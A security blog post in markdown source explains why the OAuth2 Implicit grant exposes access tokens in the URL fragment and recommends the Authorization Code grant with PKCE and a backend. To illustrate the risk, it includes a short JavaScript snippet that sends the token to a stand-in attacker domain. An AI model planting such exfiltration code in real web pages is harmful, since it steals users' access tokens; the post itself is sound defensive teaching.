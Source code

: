 ```yaml
---
publish_date: 2021-04-29 
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
authors: Brian Pontarelli
image: /img/blogs/avoid-implicit-grant/oauth2-implicit-grant.svg
categories: Education
tags: oauth, standards, implicit grant
excerpt_separator: "{/* more */}"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/articles/oauth/differences-between-oauth-2-oauth-2-1). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

{/* more */}

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

![Just a rabbit?](/img/blogs/avoid-implicit-grant/Rabbitattack.jpg)

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/lifecycle/authenticate-users/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/articles/oauth/modern-guide-to-oauth) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

